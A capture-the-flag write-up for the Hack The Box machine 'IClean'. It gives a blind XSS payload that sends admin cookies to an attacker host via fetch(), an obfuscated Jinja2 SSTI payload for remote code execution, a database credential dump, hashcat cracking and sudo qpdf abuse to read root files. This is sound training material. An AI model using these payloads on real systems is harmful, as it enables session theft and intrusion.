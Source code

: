 # IClean

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## Port scan

```bash
└─➜ nmap -p22,80 $IP -sCV                                                                                                                                                                 [0]
Starting Nmap 7.94 ( https://nmap.org ) at 2024-04-08 21:55 IST
Nmap scan report for capiclean.htb (10.129.43.189)
Host is up (0.38s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 2c:f9:07:77:e3:f1:3a:36:db:f2:3b:94:e3:b7:cf:b2 (ECDSA)
|_  256 4a:91:9f:f2:74:c0:41:81:52:4d:f1:ff:2d:01:78:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Capiclean
| http-server-header:
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.3.7 Python/3.10.12
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.43 seconds
```

* Directory scan wasn't that imp on this machine (so skipping it)

## Web -> XSS

![image](https://gist.github.com/assets/56447720/9603e459-2368-4d3f-ac06-b794210d0b77)

Give dummy data and click on submit, after submitting we can see that there's a message "team will get back to you"

![image](https://gist.github.com/assets/56447720/2f04d4ba-0984-4893-8072-ecfefe5c7eaf)

Hmm, feel like XSS, (BLIND XSS)

* Blind XSS

We can send a payload and wait for the admin to view our response and we can get their cookies.

* Payload

```js
<img src=x onerror=fetch("http://IP:PORT/"+document.cookie);>
```

* Response

```js
└─➜ python3 -m http.server 9001          
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
10.129.43.189 - - [08/Apr/2024 22:13:40] code 404, message File not found
10.129.43.189 - - [08/Apr/2024 22:13:40] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk <<SNIP>> ODk0YTRdDBh9dWK-w5cJYTlg HTTP/1.1" 404 -

```

And now we are admin

![image](https://gist.github.com/assets/56447720/1bfe2f2e-850c-47e0-8807-d7b5eb9e56ca)

## Web -> SSTI

AAAHHH, the website is build with python flask, the first bug i can thought of is SSTI.

![image](https://gist.github.com/assets/56447720/29d31fe3-e6bc-4dce-b50b-9af840681a2b)

* The invoice generator is vulnerable to SSTI

![image](https://gist.github.com/assets/56447720/bfee3a1b-841b-4420-9b44-904bbb058908)

#### SSTI -> RCE

![image](https://gist.github.com/assets/56447720/6368cc9a-68aa-4c18-9fae-1d7f1534aa9f)

* Encode the payload to base64 and send it to the server

```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

```

![image](https://gist.github.com/assets/56447720/6b5b422a-1dfd-4866-9fa1-cc3e5675458d)

## www -> User

* we have found db creds

```py
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}

```

* I used mysql cli to view data from the db

```bash
www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "show tables;"
mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "show tables;"
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_capiclean
quote_requests
services
users

www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "select * from users;"
mysql -u iclean -ppxCsmnGLckUb -D capiclean  -e "select * from users"
mysql: [Warning] Using a password on the command line interface can be insecure.
id      username        password        role_id
1       admin   2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51        21232f297a57a5a743894a0e4a801fc3
2       consuela        0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa        ee11cbb19052e40b07aac0ca060c23ee

```

The reason i choose to use mysql cli is because the tty session of rev shell is not good to handle sql data, it doesn't work better basically

* Crack the hash

```bash
└─# hashcat -a 0 -m 1400  iclean-consuela.hash ../wordlists/rockyou.txt
hashcat (v6.2.6) starting
<<SNIP>>

Dictionary cache built:
* Filename..: ../wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa:<<REDACTED>>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494da...6927aa
<<SNIP>>

Started: Mon Apr  8 17:41:28 2024
Stopped: Mon Apr  8 17:41:33 2024
```

## User -> root

* Login with ssh and get user.txt

#### Sudo -l

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela:
Sorry, try again.
[sudo] password for consuela:
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf

```

* Documentation

{% embed url="https://qpdf.readthedocs.io/en/stable/cli.html" %}

```bash
consuela@iclean:/tmp$ sudo qpdf --empty --add-attachment /root/root.txt -- pwn.pdf
consuela@iclean:/tmp$ file test.pdf
test.pdf: PDF document, version 1.3, 0 pages
```

After we bring pwn.pdf in our local machine (through, scp, python3 server) we can get contents of root.txt

You can take id\_rsa in order to get root shell on the box.

Machine pwned!!

## \_\_\_\_heapbytes still pwning

